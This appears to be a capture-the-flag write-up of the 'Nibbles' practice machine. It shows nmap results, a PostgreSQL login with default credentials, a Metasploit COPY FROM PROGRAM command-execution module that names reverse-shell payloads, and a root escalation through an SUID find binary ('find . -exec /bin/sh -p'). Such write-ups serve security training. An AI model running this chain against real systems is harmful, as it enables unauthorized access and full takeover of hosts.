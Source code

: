```yaml
---
description: PG Practice Nibbles writeup
---
```


# Nibbles

## Nmap

```
sudo nmap   192.168.51.47 -p- -sS -sV          

PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.7
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 5437 is running postgresql version between 11.3 - 11.7. I was able to login with the default credentials of `postgres:postgres` using `psql`.

```
 psql -h 192.168.51.47 -U postgres -p 5437
```

![](<../../../.gitbook/assets/image (859).png>)

As we are running on a version of postgresql higher than 9.3 we should be able to use the following exploit to gain command execution on the target machine.

{% embed url="https://www.exploit-db.com/exploits/46813" %}

**Description**

_Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with 'pg\_execute\_server\_program' to pipe to and from an external program using COPY. This allows arbitrary command execution as though you have console access._

_This module attempts to create a new table, then execute system commands in the context of copying the command output into the table._

_This module should work on all Postgres systems running version 9.3 and above._

_For Linux & OSX systems, target 1 is used with cmd payloads such as: cmd/unix/reverse\_perl_

_For Windows Systems, target 2 is used with Powershell payloads such as: cmd/windows/powershell\_reverse\_tcp Alternativly target 3 can be used to execute generic commands, such as a web\_delivery meterpreter powershell payload or other customized command._

First ensure we are a superuser on postgresql:

```
SELECT current_setting('is_superuser');
```

![](<../../../.gitbook/assets/image (860).png>)

As we are confirmed a superuser we can use the following `Metasploit` module to gain a shell.

```
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

![](<../../../.gitbook/assets/image (861).png>)

Execution:

![](<../../../.gitbook/assets/image (862).png>)

Checking for SUID and PATH we have a '.' at the end of path and SUID bit set for the find `binary`.

![](<../../../.gitbook/assets/image (863).png>)

Knowing this we can attempt to gain privileges by exploiting the find binary. Checking [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) shows we can escalate privileges:

![https://gtfobins.github.io/gtfobins/find/](<../../../.gitbook/assets/image (864).png>)

Running the following will escalate privileges:

```
find . -exec /bin/sh -p \; -quit
```

![](<../../../.gitbook/assets/image (865) (1).png>)
